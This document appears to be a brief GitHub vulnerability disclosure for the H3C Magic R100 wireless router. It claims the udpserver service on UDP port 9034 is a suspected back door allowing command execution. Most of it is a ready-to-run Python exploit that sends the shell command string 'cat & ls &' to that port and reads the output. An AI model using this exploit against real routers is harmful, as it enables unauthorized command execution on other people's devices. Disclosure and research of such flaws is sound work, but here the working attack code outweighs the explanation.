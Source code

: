 # H3C magicr100 has a Command Execution Vulnerability



## Firmware download

 https://download.h3c.com.cn/download.do?id=3342938



## Vulnerability description

H3C magic R100 is a wireless router. H3C magic R100 has a command execution vulnerability in udpserver

The updserver service has opened the 9034 port suspected to be the official back door

![img](img/{21B4E3ED-20CC-D158-872B-B26A8B2696FD}.jpg)

![img](img/{D86A4C31-8806-191F-6D79-75F682F72352}.jpg)

## EXP

```python
#/usr/bin/env python
#-*-coding:utf-8-*-

from socket import *

HOST = '0.0.0.0' 
PORT = 9034
BUFSIZ = 1024
ADDR = (HOST, PORT)

udpCliendSocket = socket(AF_INET, SOCK_DGRAM)
data = "cat & ls &"
udpCliendSocket.sendto(data, ADDR)
data, ADDR = udpCliendSocket.recvfrom(BUFSIZ)
udpCliendSocket.close()

```

